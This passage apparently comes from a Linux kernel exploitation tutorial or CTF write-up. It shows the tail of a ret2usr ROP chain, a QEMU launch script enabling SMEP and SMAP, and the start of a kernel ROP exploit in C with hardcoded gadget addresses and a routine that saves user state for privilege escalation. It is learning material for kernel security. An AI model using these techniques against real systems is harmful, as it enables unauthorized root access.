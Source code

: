 ```c title=exp
    rop[i++] = (size_t)shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd, rop, 0x100);
    core_copy(fd, 0xffffffffffff0000 | (0x100));
}
```

### Lv2. KCanary + KASLR + SMEP + SMAP

The above method uses ret2usr, but what if we add SMEP and SMAP?

```bash title=start.sh
qemu-system-x86_64 \
  -m 128M \
  -kernel ./bzImage \
  # highlight-next-line
  -cpu qemu64-v1,+smep,+smap \ 
  -initrd ./initramfs.cpio.gz \
  -append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet" \
  -s \
  -netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
  -nographic
```

#### Method 0x1 - KROP

The simplest approach is to use the overflow directly to write the ROP chain.```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>


#define POP_RDI_RET 0xffffffff81000b2f
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RCX_RET 0xffffffff81021e53
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define  IRETQ 0xffffffff81050ac2

size_t user_cs, user_ss, user_rflags, user_sp;
size_t prepare_kernel_cred, commit_creds;
void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}
